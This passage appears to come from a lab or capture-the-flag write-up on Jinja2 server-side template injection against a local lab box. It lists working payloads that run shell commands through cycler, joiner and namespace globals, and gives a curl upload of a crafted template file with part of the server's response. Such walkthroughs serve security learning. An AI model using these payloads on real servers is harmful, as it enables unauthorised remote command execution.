 ```python
{{7*'7'}} would result in 7777777
```

**Jinja2 - Template format**:
```python
{% extends "layout.html" %}
{% block body %}
  <ul>
  {% for user in users %}
    <li><a href="{{ user.url }}">{{ user.username }}</a></li>
  {% endfor %}
  </ul>
{% endblock %}
```

[**RCE not dependant from**](https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/) `__builtins__`:
```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}

# Or in the shotest versions:
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

**More details about how to abuse Jinja**

[Jinja2 SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)

Other payloads in: [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`vim ./html_python_request.txt`:
```http
-----------------------------156927482725802177751080524724
Content-Disposition: form-data; name="file"; filename="python_test.html"
Content-Type: text/html

<html>
	<body>
		{{ 7*7 }}
	</body>
</html>

-----------------------------156927482725802177751080524724--
```

`curl -X POST http://192.168.56.147:5000/ --data-binary @html_python_request.txt --header "Content-Type: multipart/form-data; boundary=---------------------------156927482725802177751080524724"`:
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Zeug</title>
    <link rel="stylesheet" type="text/css" href="/static/styles/styles.css">
</head>
<body>
    <h1>Zeug</h1>
```